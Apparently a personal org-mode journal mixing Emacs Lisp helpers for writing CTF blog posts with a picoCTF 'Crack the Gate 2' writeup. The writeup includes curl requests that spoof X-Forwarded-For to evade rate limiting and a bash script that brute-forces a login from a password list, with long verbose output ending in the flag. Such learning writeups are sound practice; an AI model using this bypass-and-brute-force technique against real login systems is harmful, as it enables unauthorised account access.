*** *Load the tangled el.*  After tangling ~org~ files that generate a corresponding ~el~, it is sometimes useful to ~load~ that ~el~ file, applying all the goodness therein.  This function does just that.

~<​<functions>> +≡​~

#+begin_src elisp :noweb-ref functions :noweb no
(defun noweb-load-auto-tangled ()
  "Call function `load' on the file with same name but `.el' extension."
  (interactive)
  (let ((filename
         (file-name-sans-extension (buffer-file-name))))
    (load filename) nil t))
#+end_src

** Getting closer to the thing proper

Then at the end of the day I finally started working on a (nother) minor-mode, this time specifically to help me write the blog posts.

*** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle no :noweb no
<<Define the minor mode>>
(provide 'ctf-mode)
#+end_src
*** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode :noweb no
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

*** *Description Function.*  CTF writeups are all about the challenge.  Let's create a function that helps us when creating that description.

#+begin_src elisp :noweb no
(define-skeleton blog-insert-description
  "Insert ctf description for the blog."
  nil
  "* Description"
  (nil \n \n (read-string "description: "))
  \n \n "Hints"
  ("hint: " '(org-return-and-maybe-indent) "- " str) | -7
  (nil \n \n \n "*Link:* [[" (read-string "link: ") "]]")
  '(delete-trailing-whitespace)
  '(save-buffer)
  '(git-commit-all "feat: add description"))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-24_seinfeld.jpeg]]

* [2025-10-23 Thu]

** Blog got a new theme!

After more hours than I am comfortable to count, I could finally change the theme on the [[https://rafaelbeirigo.github.io/cybersec-dojo/][blog]].
I was trying really hard to make the obvious thing work: just changing the option.
As it turns out, it is not that simple: each theme may have its own quirks and idiosyncrasies.

But thankfuly, it wasn't that complicated, either.
The key factor was a change in mindset: instead of consuming tutorials blindly, take a step back, identify the fundamental entities involved, and how I could apply my knowledge to solve it; also, think outside the box: remove the restriction of having to make the official package work.

In the end, I could use official packages, and the latest releases, which is a relief (makes it easier to maintain, at least in theory, as obsolescence should be postponed, relatively to older packages).

** Worked on several macros to make blogging easier (and funnier!)

This one may look a bit *bold*, but it is used reasonably, I promise...

#+begin_src elisp :noweb no
(defun git-commit-all (message)
  "Stage and commit all changes in the repository."
  (interactive "Mmessage: ")
  (async-shell-command
   (let* ((script "~/ctf-writeups/chore/git/commit/commit.sh")
          (command (concat script " \"" message "\"")))
     (async-shell-command command))))
#+end_src

This one came first as courtesy of ChatGPT.
But, as it turned out, I not only had, but hopefully /could/ add some changes---and even improvements!---of my own.

When writing about challenges, there is a /lot/ of command references, and they all have to be formatted ~like this~.
To accomplish that, I must enclose the word between tildes, and this gets old /very/ fast!

The brilliant---and /elegant/---idea of ChatGPT was to create a /minor-mode/ in Emacs  for just that: automatically enclose a word in tildes when applicable.
The initial idea was to /tilde/ every word Emacs recognizes as a /command/.
I also told Emacs to tilde the words when they belonged to a special list: a list with filenames that are specific to the challenge at hand---they also must be enclosed in tildes.

This was fun, as I had the opportunity to work with file-local variables and learned a lot.

#+begin_src elisp :noweb no
(defun my-mark-command-in-tilde ()
  "Wrap shell commands in ~command~ when typed in Org, except inside src blocks.
Triggers on non-word characters like space, ., ,, etc."
  (when (and (eq major-mode 'org-mode)
             (not (org-in-src-block-p))
             (not (eq last-command-event ?~))  ;; avoid recursion
             (not (memq (char-syntax last-command-event) '(?w ?_)))) ;; not word/underscore
    (save-excursion
      ;; Go to the start of the word.
      (backward-word 1)
      ;; Deal with words with "extensions" (e.g., foo.bar).
      (while (or (looking-back "\\w" 1)
                 (looking-back "\\." 1))
        (backward-char))
      (let ((start (point)))
        (while (or (looking-at "\\w" 1)
                   (looking-at "\\." 1))
          (forward-char))
        (let* ((end (point))
               (word (buffer-substring-no-properties start end))
               (really-is-a-command
                ;; These commands could be just words; check with the user.
                (if (member word (list "find" "file"))
                    (yes-or-no-p "command?")
                  t)))
          (when
              (and
               (or (executable-find word)
                   ;; Assets are filenames, usually defined with `assets' as
                   ;; file-local variable.
                   (and (local-variable-p 'assets) (member word assets)))
               really-is-a-command
               (and (not (eq (char-before start) ?~))
                    (not (eq (char-after end) ?~))))
            ;; Replace word with ~word~
            (undo-boundary)
            (delete-region start end)
            (insert (format "~%s~" word))
            (undo-boundary)))))))

(define-minor-mode my-auto-mark-commands-mode
  "Minor mode to auto-wrap shell commands in tildes (~) in Org buffers."
  :lighter " ~Cmd~"
  (if my-auto-mark-commands-mode
      (add-hook 'post-self-insert-hook #'my-mark-command-in-tilde nil t)
    (remove-hook 'post-self-insert-hook #'my-mark-command-in-tilde t)))

(add-hook 'org-mode-hook #'my-auto-mark-commands-mode)
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-23_seinfeld.jpeg]]

* [2025-10-22 Wed]

** CTF blog

These past few days' work on CTFs motivated me to start a simple blog to document them.

Here is [[https://rafaelbeirigo.github.io/cybersec-dojo/binary-exploitation/2025/10/22/picoctf-picker-iv-writeup.html][my first blog post on Cybersecurity!]].

Next steps include changing the theme for a more /cyber/-oriented :)

*** Small adaptation to publishing function

I made a tiny adaptation to a function to make the publishing process esier---it asks for a directory if called in a specific manner.

#+begin_src elisp :noweb no
(defun my-org-jekyll-md-export-to-md (&optional arg async subtreep visible-only)
  "Export current buffer to a Markdown file adding some YAML front matter."
  (interactive "P")
  (let ((outfile (concat
                  (when arg (concat (read-directory-name "dir: ") "/"))
                  (org-jekyll-md-filename-date)
                  (org-export-output-file-name ".md" subtreep))))
    (org-export-to-file 'jekyll outfile async subtreep visible-only)))
#+end_src

*** Insert blog header info automatically

This little function may help a lot!

#+begin_src elisp :noweb no
(define-skeleton blog-header
  "Insert a header for blogging."
  nil
  "#+TITLE: " (read-string "title: ") \n
  "#+DATE: " (format-time-string "%Y-%m-%d %R" (org-read-date t t)) \n
  "#+JEKYLL_LAYOUT: post" \n
  "#+JEKYLL_CATEGORIES: " (read-string "categories: ") \n
  "#+JEKYLL_TAGS: " (read-string "tags: "))
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-22_seinfeld.jpeg]]

* [2025-10-21 Tue]

** Progress and tools

It seems I got to a point where I should automate some work---and do it fast---and go *slow* on some other work---and *reflect* about it.

Also, tired of the repetition.

Need to freshen up!

** Seinfeld Checkmark

[[file:images/2025-10-21_seinfeld.jpeg]]

* [2025-10-20 Mon]

** picoCTF

Today I finished the last Easy challenge they have.
It was 81 in total.
There are still two to solve, but they are under maintenance.

I also started the Medium level ones.
They are somehow clearer than the Easy ones (maybe because they go deep on a specific detail of a subject).

Here's the last one I solved:

*** Crack the Gate 2
**** Instructions and commentaries

We are given a link to a login page.

The instructions say:

- The login system has been upgraded with

- a basic rate-limiting mechanism that

  - locks out

  - repeated failed attempts

  - from the same source.

- We’ve received a tip that

  - the system might still trust

  - user-controlled headers.

- Your objective is to

  - bypass the rate-limiting restriction and

  - log in using the known email address: ctf-player@picoctf.org and

  - uncover the hidden secret.

We are also given the following Hints:

- What IP does the server think you’re coming from?
- Read more about [[https://www.typeerror.org/docs/http/headers/x-forwarded-for][X-forwarded-For]].
- You can rotate fake IPs to bypass rate limits.

**** Download assets
#+begin_src shell :noweb no
2>&1 wget https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
#+end_src

#+RESULTS:
#+begin_example
--2025-10-20 18:25:19--  https://challenge-files.picoctf.net/c_amiable_citadel/d168d254b68d30726076de06aab9b9b74c5470344ec974360f5a9045c6398b17/passwords.txt
Resolving challenge-files.picoctf.net (challenge-files.picoctf.net)... 108.158.186.79, 108.158.186.39, 108.158.186.116, ...
Connecting to challenge-files.picoctf.net (challenge-files.picoctf.net)|108.158.186.79|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [application/octet-stream]
Saving to: ‘passwords.txt’

     0K                                                       100%  418M=0s

2025-10-20 18:25:21 (418 MB/s) - ‘passwords.txt’ saved [179/179]

#+end_example

Asset ~passwords.txt~:

#+begin_example
tkY83OwR
vISQRFmM
471HtPne
s8nXfR6X
WoQEk5GL
eu8z9EFn
0SMi2c8U
WlHiKuw6
0iaXgUGR
shNKoNrW
KaqwDEUA
eSqOLef7
CueFICmh
MZZSJucZ
eZQR9yx7
sPEIun6X
p0fkX9cA
CY1sEmC6
M707m17w
8thnKYYn
#+end_example

**** Is it possible to circumvent rate-limiting by spoofing IP via POST header X-Forwarded-For? Yes

I tried to login via the web page once, and got the command below.
Running it again here, using cURL.

#+begin_src shell :noweb no
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 429 Too Many Requests
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 85
< ETag: W/"55-BeJP6dUudMpXjI0h8c0UICFySpk"
< Date: Mon, 20 Oct 2025 23:35:31 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [85 bytes data]
100   141  100    85  100    56    160    105 --:--:-- --:--:-- --:--:--   266
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false,"error":"Too many failed attempts. Please try again in 20 minutes."}
#+end_example

It applied the rate-limiting.

Now trying again, using the header ~X-Forwarded-For~ to spoof my IP.

#+begin_src shell :noweb no
2>&1 curl -v 'http://amiable-citadel.picoctf.net:57381/login' \
  -X POST \
  -H 'X-Forwarded-For: 1.2.3.4' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
  -H 'Connection: keep-alive' \
  -H 'Priority: u=0' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"whatever"}'
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57381...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57381 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57381
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:38:09 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155100    73  100    17  100    56     36    119 --:--:-- --:--:-- --:--:--   155
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

It did *not* apply the rate-limiting!

**** Brute-force attack login with provided list of passwords

[[file:login.sh][login.sh]] ≡

#+begin_src shell :noweb no
#!/bin/bash

# Part of the IP that will change for each request
I=1

cat passwords.txt | \
    while read PWD
    do
        # Get a new IP
        2>&1 curl -v 'http://amiable-citadel.picoctf.net:57780/login' \
             -X POST \
             -H 'X-Forwarded-For: 1.2.3.'$I \
             -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0' \
             -H 'Accept: */*' \
             -H 'Accept-Language: en-US,en;q=0.5' \
             -H 'Accept-Encoding: gzip, deflate' \
             -H 'Referer: http://amiable-citadel.picoctf.net:57381/' \
             -H 'Content-Type: application/json' \
             -H 'Origin: http://amiable-citadel.picoctf.net:57381' \
             -H 'Connection: keep-alive' \
             -H 'Priority: u=0' \
             --data-raw '{"email":"ctf-player@picoctf.org","password":"'$PWD'"}'

        # Change a part of the IP for the next request
        I=$(( $I + 1 ))
    done
#+end_src

#+RESULTS:
#+begin_example
Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.1
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:16 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     67 --:--:-- --:--:-- --:--:--    87
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.2
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:17 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.3
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:18 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:19 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.5
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.6
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 132
< ETag: W/"84-GgUl5OLUlonh/YEAoxXrH+ecwrc"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [132 bytes data]
100   188  100   132  100    56    159     67 --:--:-- --:--:-- --:--:--   226
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_1cc3b76e}"}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.7
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:21 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     71 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.8
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:22 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.9
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.10
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.11
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:24 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
